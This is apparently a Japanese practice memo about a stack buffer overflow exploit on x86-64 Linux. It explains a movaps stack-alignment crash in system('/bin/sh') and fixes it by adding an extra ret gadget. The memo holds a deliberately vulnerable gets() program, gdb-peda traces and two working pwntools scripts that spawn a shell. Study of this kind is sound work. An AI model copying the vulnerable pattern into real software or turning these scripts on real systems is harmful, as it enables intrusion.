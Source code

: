 ## 現象
system("/bin/sh")を入れるとここでSEGVするやつ
```
<do_system+1094>:	movaps XMMWORD PTR [rsp+0x40],xmm0
```
## 対策
- ret → system("/bin/sh")にする
- なぜ大丈夫なのかはよく分からない（分かったら書く）

## 検証
こんなプログラムを用意
```c
//bofu.c
#include <stdio.h>

char vuln()
{
  char buf[64];
  printf("BOF >> ");
  gets(buf);
  puts(buf);
}

int main()
{
  setbuf(stdout, NULL);
  vuln();
}

void system_binsh()
{
  system("/bin/sh");
}
```

コンパイル
```
gcc bofu.c -fno-stack-protector -no-pie
```
exploitを作る。
まず飛び先を調べて、
```
gdb-peda$ disass system_binsh
Dump of assembler code for function system_binsh:
   0x00000000004006a9 <+0>:	push   rbp
   (snip)  
End of assembler dump.
gdb-peda$ disass vuln
Dump of assembler code for function vuln:
   (snip)
   0x000000000040067e <+55>:	leave  
   0x000000000040067f <+56>:	ret    
```

returnアドレスまでの字数を調べて、
```
=> 0x40067f <vuln+56>:	ret    
   0x400680 <main>:	push   rbp
   0x400681 <main+1>:	mov    rbp,rsp
   0x400684 <main+4>:	mov    rax,QWORD PTR [rip+0x2009c5]        # 0x601050 <stdout@@GLIBC_2.2.5>
   0x40068b <main+11>:	mov    esi,0x0
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdd28 ("IAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0008| 0x7fffffffdd30 ("AJAAfAA5AAKAAgAA6AAL")
0016| 0x7fffffffdd38 ("AAKAAgAA6AAL")
0024| 0x7fffffffdd40 --> 0x4c414136 ('6AAL')
0032| 0x7fffffffdd48 --> 0x7fffffffde18 --> 0x7fffffffe1b4 ("/home/jt/Downloads/old/practice/x64/bof1/a.out")
0040| 0x7fffffffdd50 --> 0x100008000 
0048| 0x7fffffffdd58 --> 0x400680 (<main>:	push   rbp)
0056| 0x7fffffffdd60 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x000000000040067f in vuln ()
gdb-peda$ patto IAAe
IAAe found at offset: 72
gdb-peda$
```
この場合こう書くはず。
```python
from pwn import *

BINARY = "./a.out"
elf = ELF(BINARY)

win = 0x4006a9

# r = process(BINARY)
r = gdb.debug(BINARY, '''
b*0x40067f
c
''')

r.recvuntil(">>")

payload  = "A" * 72
payload += p64(win)
r.sendline(payload)

r.interactive()
```
すると、通らない。
（手元の環境だと、ubuntu18は通らない。ubuntu16は通る。）
```
=> 0x7f0e944402f6 <do_system+1094>:	movaps XMMWORD PTR [rsp+0x40],xmm0
   0x7f0e944402fb <do_system+1099>:	
    call   0x7f0e94430110 <__GI___sigaction>
   0x7f0e94440300 <do_system+1104>:	
    lea    rsi,[rip+0x39e2f9]        # 0x7f0e947de600 <quit>
   0x7f0e94440307 <do_system+1111>:	xor    edx,edx
   0x7f0e94440309 <do_system+1113>:	mov    edi,0x3
[------------------------------------stack-------------------------------------]
0000| 0x7ffcb4ff3148 --> 0x0 
0008| 0x7ffcb4ff3150 --> 0x7f0e945a4e97 (sub    eax,0x622f0063)
0016| 0x7ffcb4ff3158 --> 0x0 
0024| 0x7ffcb4ff3160 --> 0x0 
0032| 0x7ffcb4ff3168 --> 0x7f0e94440360 (<cancel_handler>:	push   rbx)
0040| 0x7ffcb4ff3170 --> 0x7ffcb4ff3164 --> 0x9444036000000000 
0048| 0x7ffcb4ff3178 --> 0x0 
0056| 0x7ffcb4ff3180 --> 0x2 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00007f0e944402f6 in do_system (line=0x40075c "/bin/sh")
    at ../sysdeps/posix/system.c:125
125	../sysdeps/posix/system.c: No such file or directory.
gdb-peda$ 
```

調べるとヒットするのは以下の記事。
> 绕过ASLR–return2plt
https://www.tiandiwuji.top/posts/32791/

ASLRを回避という話なの？
結局、retを一回噛ましてくださいというお話になっている。
私の経験値が足りないことだけはわかる。

とりあずは、以下のように修正すると動く。
```python
from pwn import *

BINARY = "./a.out"
elf = ELF(BINARY)

win = 0x4006a9
ret = 0x40067f

# r = process(BINARY)
r = gdb.debug(BINARY, '''
b*0x40067f
c
''')

r.recvuntil(">>")

payload  = "A" * 72
payload += p64(ret)
payload += p64(win)
r.sendline(payload)

r.interactive()
```
以上。

heapは挙動が明らかに変わっていているが、こうやって微妙に変わっているのもおもしろい。
しかしながらスタックBOF初心者は無事死ぬ。
がんばって生きよう。

